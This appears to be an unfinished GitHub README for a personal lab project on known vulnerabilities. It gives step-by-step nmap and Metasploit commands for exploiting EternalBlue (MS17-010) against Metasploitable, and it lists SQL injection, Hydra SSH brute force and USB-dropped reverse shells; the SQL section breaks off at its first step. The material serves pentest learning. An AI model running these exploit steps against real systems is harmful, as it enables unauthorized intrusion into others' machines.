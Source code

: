 CAUTION: USING ANY OF THESE METHODS WITHOUT OWNERS CONSENT MAY/WILL RESULT IN PERSECUTION. ENSURE ALL PROPER PROCEDURES HAVE TAKEN PLACE BEFORE MOVING ON. 
[Under Construction]
___________________
The objective of this project was to familiarize myself with known vulnerabilities and
with said knowledge, be able to build counter measures/patch necessary apps & OS. 
___________________

 - Eternal Blue is one of my favorite vulns, it exposed how many devices could be easily infected with little to no effort by sending modified packets 
to the victim machine. Windows had a vulnerability within the OS server message block. This has crippled entire sectors of industrial sites when combined
with wannacry.

 - SQL Injection is a very common attack vector as many corporations/servers use SQL. 

 - Brute force ssh using hydra to show how basic ssh/telnet/ftp/sftp/mysql services can be brute forced when improperly configured or straight out vulnerable.

 - Reverse shells by "dropping USBs" (simulating a physical pentest)
   
--------------------------
HOW TO REPLICATE 
--------------------------
NOTE: I will be using metasploitable both win/linux to demonstrate most if not all vulns/exploits. 

- 💙Eternal Blue💙
  Step 1: Once your windows server and kali/parrot machine is spun up, ensure the two machines can communicate with each other by either using netdiscover or Nmap.
  | sudo netdiscover -r ipaddress/prefix | OR | nmap -T4 -sV --version-all --osscan-guess -A -p 1-10000 ipaddress |
------------------------------
  Step 2: Use Nmap to confirm the windows server is vulnerable by using one of the NSE scripts that come with Nmap,
| nmap -p 139, 445 --script smb-vuln-ms17-010 ipaddress |
------------------------------
 Step 3: Once verified, within your attacking machine spin up msfconsole and search for the smb-ms17-010 exploit and configure it for your victim machine.
| msfconsole , use exploit/windows/smb/ms17_010_eternalblue , options , set rhost ipaddress , check , run |
------------------------------
Congrats you have used an exploit to gain unauthorized access!
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
- ✒️SQL Injection✒️
  Step 1:







